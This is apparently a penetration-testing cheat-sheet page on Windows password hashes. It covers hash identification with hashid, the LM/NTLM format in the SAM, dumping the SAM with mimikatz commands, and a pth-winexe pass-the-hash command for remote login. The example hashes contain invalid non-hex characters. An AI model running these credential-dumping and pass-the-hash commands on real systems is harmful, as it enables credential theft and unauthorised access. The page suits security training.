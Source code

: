 # Password Hashes

> Hashing is the process of converting a given key into another value. A hash function is used to generate the new value according to a mathematical algorithm. A good hash function uses a one-way hashing algorithm, or in other words, the hash cannot be converted back into the original key.

## Identifying Password Hashes

Once we have collected a hash we can try to discover which type of hash is by using the hashid tool:

```bash
hashid $HASH
```

## Windows LM & NTLM

Windows NT up to Windows 2003 store two different password hashes in the SAM: LM and NTLN. LM is very weak and a hash-lookup attack shouldn't be a problem (doesn't include salts). Let's take an example:

**Administrator:500:42f29043y123fa9c74f23606c6g522b0:71759a1bb2web4da43e676d6b7190711:::**

The LM is the hash in the left side and NTLM is the hash on the right side:

**LM:** 42f29043y123fa9c74f23606c6g522b0

**NTML:** 71759a1bb2web4da43e676d6b7190711

From Windows Vista, Windows disables LM by default and uses NTLM, however, NTLM hashes stored in the SAM database are still not salted.

In order to dump the SAM database we can use mimikatz (under administrative command prompt) and execute, in order, the following commands:

```bash
mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```

## Passing The Hash

Once we discovered a Windows HASH we can login into a remote machine using the user and hash we found (if the user exists).

```bash
#-U: user
#%aad3b435b51404eeaad3b435b51404ee: LM part (since hash should be LM:NTLM format).
pth-winexe -U $USER%aad3b435b51404eeaad3b435b51404ee:$NTLMHASH //$IPADDRESS cmd
```
